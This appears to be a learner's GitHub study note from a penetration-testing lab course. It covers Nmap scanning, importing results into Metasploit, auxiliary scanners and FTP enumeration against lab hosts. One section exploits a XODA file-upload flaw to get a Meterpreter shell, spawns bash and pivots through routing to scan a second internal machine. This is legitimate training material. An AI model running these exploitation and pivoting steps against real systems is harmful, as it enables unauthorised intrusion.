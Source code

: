 # 03_Enumeration

## Nmap Scripting Engine (NSE)

### Discover, Scan and Export NMAP Scan Results (Example)

Discover available live hosts and their open ports using Nmap and identify the running services and applications.
 
- ping demo.ine.local --> bocked
- nmap demo.ine.local --> blocked
- nmap -Pn demo.ine.local --> worked
- nmap -Pn -sV -O demo.ine.local --> for ServiveVersion and OSVersion
- nmap -Pn -sV -O demo.ine.local -oX windows_server_2012 --> Creates xml file and inserts informations

### Nmap Output Formats

 - `-oN` = normal format, saves result how you see it 
 - `-oX` = xml format, offers a conversion layer and import it into metasploit framework 
 - `-oS` = Script kiddie
 - `-oG` = outputs scan results in grepable format
 - `-oA` = all 3 normal formats at once (oN, oX, oG) 
 - `-v` = Increase verbosity 
 - `--reason` = displays the reason a port is in a particular state
 - Example: `nmap -Pn -sS -F -T4 [target IP] -oN \path\filename.txt`

### Import nmap scan results in metasploit framework (xml format output):
- `service postgresql start`
- `msfconsole`
- msf6: `workspace -h`
- msf6: `workspace -a pentest_1`
- msf6: `workspace`
- msf6: `db_status`, check status, is msf connected to the postgresql database where the data is stored?
- msf6s: `dbimport nmap_xml.xml`
- msf6s: `hosts`
- msf6: `services`
- msf5: `nmap -Pn -sS -sV -O -p445 [target IP] `
- msf6s: `hosts`, metasploit framework updates file
- Grepable Format: `nmap -Pn -sS -F -T4 [target IP] -oG nmap_grep.txt`
- `cat nmap_gep.txt`, we see that its a grepable format

### Importing Nmap Scan Results into MSF

- Exporting Nmap scan: `nmap -Pn -sV -O -oX nmapscan.xml demo.ine.local`
- Start postgresql database service: `service postgresql start`
- Start the Metasploit Framework console: `msfconsole`
- Verify that the MSF database is connected: `db_status`
- Import the the Nmap Scan Results: `db_import nmapscan.xml`
- Check the results: `hosts` and `services`

### Auxiliary Modules
An Auxiliary Module is a type of module within a system that includes exploits without payloads and enhances the functionality of the system by performing tasks like remote system scanning and fingerprinting. They are used to perform functionality, discovery and fuzzing. Against NMAP scans, auxiliary modules are more effective in the post-exploitation phase because they allow us to identify whether the server or PC, whose IP we have, is part of an internal network. Additionally, this may enable us to exploit other devices.

**Practical:**
- First check your IP address: `ifconfig`
- Make sure the postgreSQL service is started: `service postgresql start`
- Start msfconsole: `msfconsole`
- Check Database status: `db_status` If connection type = postgresql everything is allright.
- Add a Workspace: `workspace -a "examplename"`
- You can check the current workspace your working in with`workspace` (the res star shows your selected workspace)
- You can change the current workspace with `workspace "name of the workspace you want"`
- Search Auxiliary Modules: `search (portscan)`
- You can select and use a module by: `use (name of the module or number)`
- `show options`
- Set the RHOST `set RHOSTS 192.168.20.3`
- execute the module: `run`
- downloading the webpage of the IP adress to what we can identify: `curl 192.168.20.3`

**Run udp_sweep**
- `search udP_sweep`
- `run auxiliary/scanner/discovery/udp_sweep`
- `show options`
- `set RHOST 192.168.20.3`
- `run`

**Exploiting XODA-Service (what we just curled)**
- `search Xoda`
- `use exploit/unix/webapp/xoda_file_upload`
- `show options`
- `set RHOSTS 192.168.20.3`
- set Path on the Xoda device to root: `set TARGETURI /`
- run our exploit: `exploit`
- It did not work Problemsolving: I had to set LHOST because I have bound to a loopback address by default(127.0.0.1): `set LHOST 192.198.6.2`(my IP)
- `exploit` run exploit again, it worked and we received a meterpreter session.
- `sysinfo` to get Informations of the Targentmachine
- We want to execute a Portscan on the second machine in the network:
- `shell` open shell session
- `/bin/bash -i` spawn a bash session to run commands easily
- `ifconfig` to get the Target IP
- Ctrl C to go back to meterpreter
- `run autorun -s 192.102.202.2` set the address route and provide the subnet
- `background` background session 1
- `sessions` view your sessions
- `search portscan`
- `use 5`
- `set RHOSTS 192.102.202.3`
- Because we already configured the route(so that the Scan comes from the exploited machine) we can run the scan: `run`
- leave module: `back`

## Service Enumeration

### FTP Enumeration

FTP(File Transfer Protocol) uses TCP port 21 and is used to facilitate file sharing between a server and clients.
NOTE: FTP authentication utilizes a username and password combination, however, in some cases an improperly configured FTP server can be logged into anonymously.

Practical:
`service postgresql start`
`ifconfig`
`msfconsole`
`workspace -a FTP_ENUM`
`search portscan`
`use auxiliary/scanner/portscan/tcp`
`options`
`set RHOST` 192.10.156.3
`run` --> FTP service is running
`search ftp` are to much modules, specify the search --> `search type:auxiliary name:ftp`
`use auxiliary/scanner/ftp/ftp_version`
`set RHOST 192.10.156.3`
`run` = ![image](https://github.com/user-attachments/assets/eab00222-7a14-4ba3-ad0b-1c8a07c48fcf)

